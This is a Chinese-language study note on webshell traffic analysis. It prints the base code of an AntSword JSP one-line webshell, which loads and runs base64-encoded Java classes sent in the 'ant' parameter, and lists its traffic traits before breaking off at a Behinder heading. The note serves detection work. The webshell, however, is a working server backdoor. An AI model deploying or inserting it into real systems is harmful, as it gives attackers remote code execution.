 ### Antsword 蚁剑

#### 基础代码

```jsp
# 4.jsp

<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```

#### 流量特征

- 明文传输。
- ant是jsp一句话木马的password。

![img](images/Webshell流量分析/202211091034381.png)

### Behinder 冰蝎2
